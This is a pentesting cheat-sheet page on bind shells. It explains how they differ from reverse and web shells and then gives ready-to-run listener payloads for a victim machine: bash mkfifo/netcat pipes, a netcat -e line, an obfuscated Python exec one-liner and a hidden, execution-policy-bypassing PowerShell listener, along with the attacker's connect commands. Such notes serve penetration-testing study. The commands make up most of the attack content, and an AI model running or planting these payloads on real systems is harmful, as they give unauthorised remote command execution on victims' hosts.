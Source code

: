 ```yaml
---
title: Bind Shells
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - pentesting
  - web pentesting
  - bind shells
---
```

# Bind shells

??? abstract "All about shells"
    | **Shell Type** | **Description** | 
    | -- | -- |
    | [`Reverse shell`](reverse-shells.md) | Initiates a connection back to a "listener" on our attack box. |
    | [`Bind shell`](bind-shells.md)       | "Binds" to a specific port on the target host and waits for a connection from our attack box. |
    | [`Web shell`](web-shells.md)         | Runs operating system commands via the web browser, typically not interactive or semi-interactive. It can also be used to run single commands (i.e., leveraging a file upload vulnerability and uploading a `PHP` script to run a single command. |


In a bind-shell the attacking machine initiates a connection to a listener port on the victim's machine. 

A basic connection (not a bind shell as there is no interaction with the OS and file system) would be:

```
# Listener listening in the victim's machine, the target
nc -lvnp $port

# Attacker's machine making the connection
nc -nv $ipVictim $port
```


## Bind shell connections

**First step** in this attack is always initiating the listening connection on port $port on the victim's machine,  IP $ipVictim.

### bash

We had complete control over both our attack box and the target system;

```bash
# From the victim's machine
rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc -l $ipVictim $port > /tmp/f
### nc -l $ipVictim $port -> This binds to a specific IP address (denoted by `$ipVictim`). This is useful in multi-homed systems where the machine has more than one network interface, and you want to bind netcat to a particular IP address/interface.

# From the attacker machine
nc -nv $ipVictim $port
```

```bash
# From the victim's machine
rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc -lvp $port >/tmp/f
### nc -lvp $port  -> This binds to any available network interface on the machine. It listens on the specified port, but it will accept connections on all network interfaces (e.g., localhost, LAN IP, etc.), which might be less restrictive.

# From the attacker machine
nc -nv $ipVictim $port
```

### netcat

```shell-session
nc -lvp 1234 -e /bin/bash
```

###  python

```python
python -c 'exec("""import socket as s,subprocess as sp;s1=s.socket(s.AF_INET,s.SOCK_STREAM);s1.setsockopt(s.SOL_SOCKET,s.SO_REUSEADDR, 1);s1.bind(("0.0.0.0",1234));s1.listen(1);c,a=s1.accept();\nwhile True: d=c.recv(1024).decode();p=sp.Popen(d,shell=True,stdout=sp.PIPE,stderr=sp.PIPE,stdin=sp.PIPE);c.sendall(p.stdout.read()+p.stderr.read())""")'
```

### powershell

```powershell
powershell -NoP -NonI -W Hidden -Exec Bypass -Command $listener = [System.Net.Sockets.TcpListener]1234; $listener.start();$client = $listener.AcceptTcpClient();$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + " ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close();
```

**Second step**:  If we have succeeded in previous step, we have a shell waiting for us on the specified port (1234) in the victim's machine. Now, let's  connect to it from our attacking machine:

```
nc 10.10.10.1 1234
# 10.10.10.1 would be the victim's machine
# 1234 would be the listening port on victim's machine
```

Unlike a Reverse Shell, if we drop our connection to a bind shell for any reason, we can connect back to it and get another connection immediately. However, if the bind shell command is stopped for any reason, or if the remote host is rebooted, we would still lose our access to the remote host and will have to exploit it again to gain access.


## Some more resources

| Reverse shell | Link to resource |
| ------------- | ---------------- |
| PayloadsAllTheThings | [https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Bind%20Shell%20Cheatsheet.md](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Bind%20Shell%20Cheatsheet.md)) |
